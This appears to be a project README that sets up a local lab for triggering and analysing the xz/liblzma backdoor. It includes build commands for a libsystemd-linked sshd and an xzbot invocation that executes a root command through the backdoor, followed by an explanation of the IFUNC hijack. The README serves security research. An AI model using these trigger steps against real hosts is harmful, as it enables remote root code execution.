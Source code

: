 This project tries to minimize the number of steps necessary to trigger the
[xz backdoor](https://en.wikipedia.org/wiki/XZ_Utils_backdoor).

The backdoor needs `sshd` compiled with libsystemd support, which requires a
patch most distributions don't ship.

Here's how you can check if `sshd` is linked against libsystemd:

```sh
readelf -d /usr/sbin/sshd | grep NEEDED
```

To help testing a script to build `sshd` with the libsystemd patch is included:

```sh
make sd_sshd
```

Then just `sshd` with the helper script:

```sh
sudo ./run_sshd
```

This is simply a wrapper to run `sshd` in a clean environment and with
debugging options:

```sh
env -i LD_LIBRARY_PATH="$PWD" "$PWD/sd_sshd" -D -d -oListenAddress=127.0.0.1 -p2222
```

Then you can use [xzbot](https://github.com/amlweems/xzbot) to trigger the
backdoor. It will use a custom ed448 key generated with 0 as seed.

```
make xzbot
./xzbot -cmd 'id > /root/xz'
```

# How?

The backdoor is installed before the program starts, when the linker is
executing checks. It's abusing the
[IFUNC](https://sourceware.org/glibc/wiki/GNU_IFUNC) functionality in a
resolver function that is supposed to be calling `__get_cpuid` to check for cpu
features, but instead the build system modified the code to call `_get_cpuid`
which is inside the backdoor binary, and does **much more**.

Since this repository contains a simplified version of liblzma it's clear what
they were trying to do in commit f8c8e5a.

The backdoor works because many people made mistakes:

 1. The complexity of xz trying to build for a bajillion systems with two
    build systems and few development resources enabled a malicious developer
    to inject a couple of lines in a script with tens of thousans of lines of
    code that is generated for tarballs and nobody looks at.
 2. The developers of systemd did not design it with modularity in mind, so the
    singular libsystemd library provides a ton of functionality most people
    won't uses has nothing to do with an init system, like process compressed
    system logs. Therefore everyone that links to libsystemd links to liblzma
    as well.
 3. Maintainers patched `sshd` to link to libsystemd for a minor feature.

The backdoor binary is incredibly complex and it will take a while to properly
understand all what it does.

I created this project to simplify the process of analysis.
